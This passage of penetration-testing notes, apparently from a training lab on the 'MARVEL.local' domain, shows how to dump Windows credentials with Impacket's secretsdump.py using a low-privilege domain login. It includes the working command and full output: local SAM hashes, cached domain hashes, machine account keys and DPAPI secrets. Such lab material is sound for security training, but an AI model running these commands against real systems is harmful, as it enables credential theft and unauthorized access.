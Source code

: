 # Dumping and Cracking Hashes

**Dumping passwords with `secretsdump.py`**

Whenever we get access to a machine, we want to dump the login credentials that
are stored on that machine for further use. We can run `secretsdump.py` either
with a password or a hash.

From `secretsdump.py --help`:

```
(...)
usage: secretsdump.py (...) target

positional arguments:
  target   [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)
(...)
```

With the known login credentials for fcastle (low privilege domain account on
`THEPUNISHER`) we can dump the secrets from that machine as follows:

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/fcastle:"Password1"@10.0.2.6
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2f26d7b5041807b439cfc2be3b7bb066
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fd82b88db6c66dd3c2cef8f845ca2803:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2025-08-13 04:31:46)
MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f: (2025-08-03 17:27:27)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
MARVEL\THEPUNISHER$:aes256-cts-hmac-sha1-96:ddcc3c9b8dc4bac1e836f60ef909cb491342f4b4ed03dff68b2a9ac9e5fccf90
MARVEL\THEPUNISHER$:aes128-cts-hmac-sha1-96:565a3e21b9a72ae1d6f853619e4d7832
MARVEL\THEPUNISHER$:des-cbc-md5:5e4934f8f1fb580d
MARVEL\THEPUNISHER$:plain_password_hex:5a007900740052003500520066003500560036005600540036004900330034003f005b005b0023003f0042003a00230029006400770063006d0054003e003f0043006d003a003e00420071004a0062002800480047002d00350073003200640031007600500060007200540028006700530055006a0054004a0050003d00540031003f00240048007400480070007000560022002a0065002d00390061005d00280050003200690070003c0023003e004100520057003a0050002d00470035002000460022005c004f0022004c0021002000400041003300460062003b002e005700590022004e004a00770072002e00
MARVEL\THEPUNISHER$:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x70b810b6f3cea60a01c6a89983513809d549462f
dpapi_userkey:0x89d4bea229297fecdc2014e323945763f075a308
[*] NL$KM
 0000   38 E3 A7 85 C5 58 77 17  2F 56 EC 29 8A CF 67 1D   8....Xw./V.)..g.
```